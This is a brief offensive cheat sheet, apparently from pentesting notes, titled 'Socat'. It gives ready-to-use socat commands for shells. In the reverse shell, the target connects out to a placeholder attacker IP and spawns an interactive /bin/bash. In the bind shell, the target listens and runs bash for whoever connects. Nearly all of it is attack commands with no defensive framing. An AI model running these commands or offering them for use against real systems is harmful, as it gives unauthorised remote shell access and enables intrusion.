 # Socat

## Reverse Shell

Shell handler (attacker).

```
$ socat file:`tty`,raw,echo=0 tcp-listen:<PORT>
```

Connect to attacker.

```
$ socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:<attacker_IP>:<attacker_PORT>
```

## Bind Shell

Target.

```
$ socat tcp-listen:<PORT>,reuseaddr,fork exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane
```

Shell handler.

```
$ socat file:`tty`,raw,echo=0 tcp:<target_IP>:<target_PORT>
```